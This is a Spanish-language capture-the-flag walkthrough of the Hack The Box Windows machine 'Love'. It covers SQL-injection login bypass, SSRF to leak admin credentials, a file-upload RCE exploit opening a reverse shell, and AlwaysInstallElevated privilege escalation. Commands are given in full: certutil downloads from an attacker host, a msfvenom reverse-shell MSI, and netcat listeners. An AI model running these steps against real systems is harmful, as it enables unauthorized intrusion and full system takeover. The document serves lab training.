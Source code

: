 ## Summary

Tags: #Windows #HTTP #HTTPS #SSRF #RCE #ReverShell #WinPEAS #Msfvenom 
N
- IP -> 10.10.10.239
- Ports -> TCP (80,135,139,443,445,3306,5000,5040,5985,7680,47001,), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80 -> Apache httpd 2.4.46 
    - 443 -> HTTPS

## Recon

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

* Podemos ver si se inyectan comandos SQL en la pagina web
```bash
❯ Ctrl + u                             # Para ver el codigo fuente
```

Cuando una Web es muy simple, podemos usar el siguiente comando 
```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```

Por lo que encontramos un posible **Admin** folder y lo colocamos en la url y efectivamente, nos coloca otra ventana de inicio de sesion pero en este caso nos pone usuario y passwd. 

```bash
❯ searchsploit  voting system                 # Para buscar un exploit
```
Para ver si hay vulnerabilidades con ese nombre. Encontramos uno que dice **Autentication Bypass 1.0 (SQLI)** y es un archivo .txt, los que dicen online creemos que no aplican 

```bash
❯ searchsploit -x 49843.txt              # Para ver el contenido del exploit 

	# x = examin
```
Para ver el contenido del archivo (x=examing)

Al ver contenido del exploit nos damos cuenta que debemos de tramitar un peticion por **POST** y debemos de meter en el login una inyeccion SQL. Por lo que nos disponemos a abrir BurpSuite y copiamos todo el login que se encuentra en el archivo .txt qye habiamos visto

Despues de colocar la inyeccion y darle Forward nos loggea automaticamente. 
Podemos enviar la data que encontramos en el Searchsploit con el boton de ‘Forward’ y luego desactivamos el ‘intercept a off’


**** 

Otra forma de hacerlo es por medio del puerto **443 ssl/http** en donde observamos que existe un subdominio el cual podemos utilizar para saber si hay algo que nos pueda ayudar. Pero antes debemos de agregar el **dominio y subdominio** a la ruta **/etc/hosts** ya que existe un virtual hosting.

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```
* staging.love.htb y love.htb -> El dominio que debemos de agregar

Una vez agregado el subdominio podemos mirarlo en la pagina web 
Tiene una pestana de **demo** en donde hay una opcion que nos indica que ‘**especifiquemos una url**’

```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

```bash
❯ nano test                              # Nos creamos un archivo llamado test en el cual le agregamos cualquier informacion
En la pagina web colocamos la url de nuestro servidor y buscamos ese archivo http://10.10.14.2/test y nos damos cuenta que nos muestra el contenido de nuestro archivo
```

Cuando la pagina web nos muestra informacion en la misma web podemos creer que es un SSRF
Por lo que nos podemos aprovechar de eso y hacer un **Server Side Request Forgery (SSRF)** 

Primero hacemos que escanee la url del puerto 80 **\http://127.0.0.1** o sea, escaneara el propio localhost de la maquina victima

Haremos que el mismo servidor se haga un internal port discovery desde el **local-host (\http://localhost:5000/ o \http://127.0.0.1:5000)** por el puerto 5000 ya que ese puerto es open, esto significa que el mismo servidor nos podria dar informacion por un puerto especifico haciendo la peticion internamente.

Ahi encontraremos el usuario admin y su passwd 

****

Buscaremos en searchsploit pero ahora el exploit en donde dice que ya estamos autenticados que se llama **File Upload RCE (Autenthicated Remote Code Execution)**

```bash
❯ searchsploit ❮exploit_name❯                 # Para buscar un exploit
```

```bash
❯ searchsploit -m ❮exploit_name❯              # Para descargarnos el exploit .py/.txt 

	# m = move
```
Puedes descargarte el archivo sploit ejecutable a tu computadora para despues poder ejecutarlo (m=move). Podemos observar que es el tipico sploit en el cual debes de meter IP, usuario, contrasena, IP de la revershell, Puerto de la revershell, para poder hacer esa autenticacion y poder ser ususario root.

```bash
❯ nano 49445.txt                              # Para ver el contenido del exploit y modificarlo, para poder usarlo 
```

Debemos de hacer algunas modificaciones al script como:
* love.htb -> Colocarle la IP de la pagina victima
* admin -> usuario
* loveisintheair!!! -> passwd
* 10.10.14.2 -> Nuestra IP
* 443 -> Puerto de Netcat

Debemos quitarle todos los /**votesystem/** ya que eso no existe en nuestra ruta en el servidor victima.
```python
❯ python3 49445.py                            # Para ejecutar el exploit
```

Una vez corregido ejecutamos el script y nos pondemos en escucha en el puerto 443
```bash
❯ rlwrap nc -nlvp 443
```

## User

Una vez adentro nos vamos a:
```bash
❯ cd C:\Users                    # Nos cambiamos de directorio
❯ dir                            # Para ver el contenido del directorio
❯ cd Phoebe                      # Nos movemos al dir del usuario phoebe
❯ cd Desktop                     # En el desktop podemos encontrar la primer flag, user.txt
```

Ahora debemos de escalar privilegios para poder ser usuario root.
```bash
❯ cd Windows/temp                # Empezamos llendonos a ese directorio para crear una carpeta, ya que ese dir tiene privilegios de lectura y escritura
❯ mkdir Privesc                  # Creamos el directorio para escalar privilegios.
```

```bash
❯ systeminfo                     # Podemos observar la informacion del sistema Windows
```

* **Herramienta WinPEAS**: [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) 
Nos dirigimos a: Download the **latest obfuscated and not obfuscated versions from here**, -> Despues debemos de descargar el archivo **winPeasx64.exe**

Podemos usar la herramienta **Winpeas** en el sistema Windows. Nos dirigimos en Google a la pagina oficial en Github de Carlospolop y descargamos de ahi el archivo ejecutable de 64 bits. Lo encontramos en realises como **winPeasx64.exe**

Lo traemos a nuestra ruta de trabajo y nos creamos un servidor para poder subirlo a la maquina victima
```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Despues en la maquina victima Windows le decimos que queremos cargar un archivo.
```
❯ certutil.exe -f -urlcache -split \http://10.10.14.2/winPeas.exe winPeas.exe
```
Subiremos el archivo con el nombre de winPeas.exe y lo depositaremos como winPeas.exe en el equipo victima, esto se lograra con una peticion GET a nuestro servidor.

**WinPeas** sirve para detectar vias potenciales para poder escalar privilegios.
```bash
❯ winPeas.exe                            # Para ejecutar el archivo .exe en Windows
```

Podemos observar que de toda la informacion nos despliega el ‘**Checking AlwaysInstallElevated**’ y tiene:
* **set 1 in HKLM** 
* **set 1 in HKCU** lo cual es malo para esa maquina Windows.

* [Hacktricks](https://book.hacktricks.xyz/welcome/readme) nos ayudara a escalar privilegios

Vamos a la url que nos ofrece esa vulnerabilidad, 
Filtrmos por **AlwaysInstallElevated**
Nos indica que debemos utilizar el siguiente comando en nuestra maquina de atacante para poder crear un archivo que despues subiremos a la maquina Windows

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=10.10.14.2 LPORT=443 -f msi -o reverse.msi 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```


## Root

Una vez creado el archivo **.msi** lo subimos a la maquina victima creando un servidor con python como lo hicimos anteriormente.
```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Despues en la maquina victima le decimos que queremos cargar ese archivo.
```bash
❯ certutil.exe -f -urlcache -split http://10.10.14.2/reverse.msi reverse.msi

	# Ip = Maquina de atacante
```
Buscamos el archivo con ese nombre **reverse.msi** y lo depositarremos como reverse.msi en el equipo victima Windows.

```bash
❯ rlwrap nc -nlvp 443
```

Para instalar el archivo .msi en una maquina Windows debemos de colocar el siguiente comando:
```bash
❯ msiexec /quiet /qn /i reverse.msi
```
Una vez que ejecutemos el archivo en la maquina victima Windows, esta nos dara una revershell y en este caso seremos usuario **Authority\System** que seria el root.
Ahora nos vamos al Desktop del Administrator y buscamos la flag root.txt